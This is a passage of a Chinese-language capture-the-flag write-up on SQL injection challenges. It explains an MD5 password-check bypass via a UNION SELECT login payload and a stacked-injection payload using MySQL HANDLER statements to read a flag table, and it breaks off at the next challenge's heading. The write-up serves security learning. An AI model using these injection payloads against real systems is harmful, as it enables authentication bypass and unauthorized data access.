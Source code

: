 ![img](.\img\8-1.png)

 然后我们可以用联合查询的方式将查询的数据插入到表中

![img](.\img\8-2.png)

这题的知识点是绕过密码的`md5`验证

 通过这样的方式，我们就可以用构造`payload`

用户名输入（`202cb962ac59075b964b07152d234b70`是 `123`的`md5`值）

```sql
name=1'union%20select%201,'admin','202cb962ac59075b964b07152d234b70'%23&pw=123
```

[参考](https://www.cnblogs.com/gaonuoqi/p/12355035.html)

## [GYCTF2020]Blacklist

`handler`

`堆叠注入`

需要用到HANDLER：

> 例如，**HANDLER tbl_name OPEN**打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
>
> 通过**HANDLER tbl_name READ FIRST**获取句柄的第一行，通过**READ NEXT**依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
>
> 通过**HANDLER tbl_name CLOSE**来关闭打开的句柄。

这道题照葫芦画瓢payload如下：

```sql
1'; handler `FlagHere` open as `a`; handler `a` read next;#
```

[参考](https://www.shawroot.cc/1115.html)

## [CISCN2019 华北赛区 Day2 Web1]Hack World

`sql注入`
